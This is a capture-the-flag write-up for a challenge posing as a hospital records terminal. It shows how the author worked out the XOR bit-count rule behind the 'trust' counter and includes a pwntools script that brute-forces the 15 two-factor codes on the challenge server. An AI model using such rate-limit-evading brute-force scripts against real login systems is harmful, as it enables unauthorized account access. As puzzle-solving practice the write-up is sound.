 # Grey's Anatomy
>Can you compromise the medical records of Seattle Grace Hospital? We've obtained a set of credentials (mgrey/1515) but haven't figured out how to bypass the second factor authentication.
>
>0.cloud.chals.io on:11444

A very funny title and description, obviously based off the show. 

---
## Introduction
After connecting to the port and entering in the given credentials, we get some more information about the second factor authentication
```
Welcome to the Seattle Grace Hospital EMR Terminal Access Program
Please enter your credentials to access patient records.
Username:
mgrey
Password:
1515
Due to increased security concerns around patient health records, we have recently implemented two-factor authentication.
Please enter the series of 15 3-digit codes found on your 2 factor enabled device.
UPDATE: Due to complaints, we have implemented a custom "trust" meter which will allow you to re-enter a code if you mistype.
Your trust goes down more if it looks like you are randomly guessing.
Enter Code #1 (Trust: 1000):
```
Looks like we need to somehow guess all 15 codes without our trust running out.

Guessing some random codes, we see that the trust seemingly decreases at random.
```
Enter Code #1 (Trust: 1000):
323
Incorrect Code, please re-enter
Enter Code #1 (Trust: 1000):
541
Incorrect Code, please re-enter
Enter Code #1 (Trust: 993):
763
Incorrect Code, please re-enter
Enter Code #1 (Trust: 988):
335
Incorrect Code, please re-enter
Enter Code #1 (Trust: 982):
863
Incorrect Code, please re-enter
Enter Code #1 (Trust: 980):
```
After some more messing around, we see that the decrease seems to depend on the previous guess and the current guess.
It also doesn't seem to depend on the order: 999 -> 998 decreases by 1, just like 998 -> 999
```
999
Incorrect Code, please re-enter
Enter Code #1 (Trust: 976):
998
Incorrect Code, please re-enter
Enter Code #1 (Trust: 975):
999
Incorrect Code, please re-enter
Enter Code #1 (Trust: 974):
998
Incorrect Code, please re-enter
Enter Code #1 (Trust: 973):
999
Incorrect Code, please re-enter
Enter Code #1 (Trust: 972):
998
Incorrect Code, please re-enter
Enter Code #1 (Trust: 971):
999
```
Seems like the goal is to find a way to guess the numbers such that the trust decreases by 1 every time, allowing us to guess
all 1000 3-digit pins. We just have to repeat it 15 times for the flag.

## Finding a pattern
After some more experimenting, I found a few small patterns for possible pairs (with trust decrease of 1):
- Any odd number and the even number directly below it form a pair
  - Ex: `999 998`
- Only pairs that are a power of 2 apart work (but not all of them)
  - Ex: `999 995` work, but not `999 983`
This probably means that the trust is related to something with the bits of each number.

However, after a while, I resorted to brute forcing all possible pairs to find the pattern.

# Solution
As it turns out, the trust decrease was based on the number of 1 bits remaining in the xor of the previous and current guess.
That's why guessing the same number also results in a decrease of 0, as a number xored with itself is just 0. 

I then manually created all possible pairs using [this code](getgraph.py)
```python
def getDelta(a: int, b: int):
    return (a ^ b).bit_count()

for i in range(1000):
    print(i)
    edges = []
    A = i
    for j in range(10):
        B = A + (2 ** j)
        # print(A, B)
        if B < 1000:
            delta = getDelta(A, B)
            cur = edges
            if delta == 1:
                edges.append(B)
            edges = cur
        B = A - (2 ** j)
        # print(A, B)
        if B > 0:
            delta = getDelta(A, B)
            cur = edges
            if delta == 1:
                edges.append(B)
            edges = cur
    with open("egg.txt", "a") as f:
        f.write(str(edges))
        f.write("\n")
```
Only numbers a power of 2 away could possibly have a decrease of 1 as a difference by a power of 2 represents toggling a certain bit.

After generating all the numbers, I could then just easily DFS the graph I had created, using each pair as an edge. 
I didn't test if the graph was guarenteed to work, but given that each number had at least 8 connections, it was very likely.
```python
import pwn
# 0.cloud.chals.io on:11444

with open("egg.txt", "r") as f:
    data = f.read()

edges = {}
for i, line in enumerate(data.split("\n")):
    if line == "":
        continue
    edges[i] = eval(line)


s = pwn.remote('0.cloud.chals.io', 11444)

s.recvline_contains(b'Username:')
s.send_raw(b'mgrey\n')
s.recvline_contains(b'Password:')
s.send_raw(b'1515\n')

for i in range(15):
    guesses = set()
    solved = False
    lastguess = -1
    guess = 0

    while not solved:
        line = s.recvline_contains(b'Enter')
        line = line.decode('utf-8').strip().split(' ')
        trust = int(line[-1][:-2])
        lastguess = guess
        guess = -1
        for j in edges[lastguess]:
            if j in guesses:
                continue
            guess = j
        if guess == -1:
            print("fail")
            exit()
        guesses.add(guess)
        #print("size", len(guesses))
        g = str(guess).rjust(3, '0').encode('utf-8') + b'\n'
        # print(g)
        s.send_raw(g)
        line = s.recvline()
        # print(line)
        if line == b'Correct Code\n':
            print(line)
            solved = True

s.interactive()
```
Now we just have to run the script and get the flag :smiley:

And our flag is:
```
uscg{Gr4y_c0d3S}
```